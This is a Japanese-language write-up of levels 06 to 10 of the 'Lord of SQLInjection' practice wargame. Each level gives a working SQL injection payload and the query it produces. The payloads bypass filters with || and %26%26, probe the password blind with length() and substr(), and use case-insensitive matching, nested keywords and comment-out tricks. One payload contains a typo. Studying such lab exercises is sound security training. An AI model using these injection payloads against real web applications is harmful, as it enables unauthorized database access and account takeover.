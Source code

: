 # Lord of SQLInjection writeup 06-10
## 06 - darkelf
今度は`and`と`or`が禁止されている。  
05と同じ方法が使えるのでそのまま実行する。

### 回答例
```
?pw=0'||id='admin
```
> query : select id from prob_darkelf where id='guest' and pw='0'||id='admin'

## 07 - orge
04と同じ問題だが、また`and`と`or`が禁止されている。  
先ほどの`or`を`||`に、`and`を`%26%26`に置き換えてやり直してみる。

```
?pw='||id='admin'%26%26length(pw)=1%23
?pw='||id='admin'%26%26length(pw)=2%23
?pw='||id='admin'%26%26length(pw)=3%23
:
?pw='||id='admin'%26%26length(pw)=8%23
```
またもや8文字らしい。  
```
?pw='||id='admin'%26%2substr(pw,1,1)='0'#
?pw='||id='admin'%26%2substr(pw,1,1)='1'#
?pw='||id='admin'%26%2substr(pw,1,1)='2'#
:
```

### 回答例
```
?pw=7b751aec
```
> query : select id from prob_orge where id='guest' and pw='7b751aec'

## 08 - troll
`id='admin'`を取ってきたいが、`admin`の入力が禁止されている。  
`adm`と`in`を結合することを考えたが、`'`が禁止されているので、結合も難しい。

MySQLはデフォルト設定の場合、文字列比較で大文字小文字を区別しないので、  
`admin`がダメなら`ADMIN`にしてみる。  

### 回答例
```
?id=ADMIN
```
> query : select id from prob_troll where id='ADMIN'

## 09 - vampire
入力された`id`を小文字にし、str_replaceを用いて`admin`をブランクに置換している。  
`admin`が消されると`admin`が完成する？ように、うまく囲ってあげればよい。  

### 回答例
```
?id=admadminin
```
> query : select id from prob_vampire where id='admin'

## 10 - skeleton
もともとSQL文の後方にand 1=0が付いているが、特に気にせずにコメントアウトする。  
これまでの問題の解法と比べて特筆すべきことは無い。  

### 回答例
```
?pw=' or id='admin'%23
```
> query : select id from prob_skeleton where id='guest' and pw='' or id='admin'#' and 1=0










